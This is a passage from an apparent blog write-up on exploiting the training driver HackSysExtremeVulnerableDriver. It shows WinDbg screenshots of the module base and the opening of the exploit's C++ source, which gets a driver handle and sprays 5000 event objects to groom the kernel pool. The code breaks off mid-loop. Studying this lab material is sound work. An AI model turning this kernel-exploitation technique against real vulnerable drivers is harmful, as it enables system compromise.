 ![](imgs/blog/8ModernLFH/20250727040932.png)

As seen above, the module base is `0xfffff80552010000` in WinDbg:

![](imgs/blog/8ModernLFH/20250727041032.png)

Here's the full source code:
```cpp
#include <stdio.h>
#include <windows.h>

int main() {

	BYTE pOutBuffer[1000] = { 0 };
	size_t sOutBuffer = sizeof(pOutBuffer);

	DWORD tag = 0;
	UINT64 addrKrnl = 0;
	ULONG lpBytesReturned = 0;

	bool kernel = false;

	HANDLE Events[5000] = { 0 };
	HANDLE hFile = CreateFileW(L"\\\\.\\HackSysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE, 0, nullptr,
		OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, nullptr);
	if (hFile == INVALID_HANDLE_VALUE) {
		printf("\n[!] Error getting the handle to HEVD -> %d\n", GetLastError());
		getchar();
		return -1;
	}

	for (unsigned int i = 0; i < 5000; i++) {

		Events[i] = CreateEventA(NULL, FALSE, FALSE, NULL); //  -> 0x80
		if (Events[i] == NULL) {
			printf("\n[%d] ERROR ON \"CreateEventA\" -> %d\n", i, GetLastError());
```
